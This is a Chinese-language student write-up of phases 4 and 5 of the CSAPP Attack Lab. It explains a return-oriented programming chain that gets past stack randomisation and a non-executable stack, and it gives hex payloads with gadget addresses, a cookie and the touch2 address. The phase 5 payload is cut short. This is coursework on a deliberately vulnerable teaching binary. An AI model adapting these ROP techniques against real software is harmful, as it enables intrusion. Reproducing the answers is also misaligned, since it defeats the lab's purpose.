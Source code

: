 这次我们还是要攻击test依然跳转到touch2，但是这次比起phase_2直接栈溢出，多了如下的限制


1. 引入了栈地址随机化，无法像攻击ctarget那样取得栈地址的绝对值。
2. 栈上的指令不可执行，即使在栈注入指令，执行了也是 segmentation fault

所以我们不能把放到栈上了，但是缓冲区还是要填满才能覆盖返回值，而我们并不知道栈的地址，所以我们可以将cookie放到栈中，然后使用指令
    
```asm  
pop %rax
ret
```

注意：当我们用字符填满栈空间时，我们再往其中写入字符就会覆盖test的栈空间，我们将cookie的字符放入test的栈帧中，然后在返回处pop %rax，这样就把字符给rax寄存器了

```asm
popq %rax
ret

movq %rax %rdi
ret
```

然后去教授为我们构造的函数中寻找 我们编写的汇编对应的地址，就可以了
这个可以参考https://zhuanlan.zhihu.com/p/476396465

最后的结果如下：

33 33 33 33 33 33 33 33

33 33 33 33 33 33 33 33

33 33 33 33 33 33 33 33

33 33 33 33 33 33 33 33

33 33 33 33 33 33 33 33

cc 19 40 00 00 00 00 00 /* pop %rax 把栈上的cookie给rax */

fa 97 b9 59 00 00 00 00 /* 我们把cookie压到栈上*/

c5 19 40 00 00 00 00 00 /* mov %rax,%rdi */

ec 17 40 00 00 00 00 00 /* touch2的地址 */

结果：
![Alt text](image-3.png)


好的final phase 了 加油！

## phase_5
重要的事情说3遍，这里我们要传的是字符串的地址，不是字符串的值,而在part2中加入了栈的保护机制，所以我们无法直接获取字符串的地址，所以我们无法像第四个lab那样将值压栈再传值，因为我们要传的是地址。为啥我要这么唠叨，因为我自己就这么做的！
```
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
cc 19 40 00 00 00 00 00 /* pop %rax */
35 39 62 39 39 37 66 61 /*这个是字符串*/
c5 19 40 00 00 00 00 00 /* mov %rax,%rdi */
```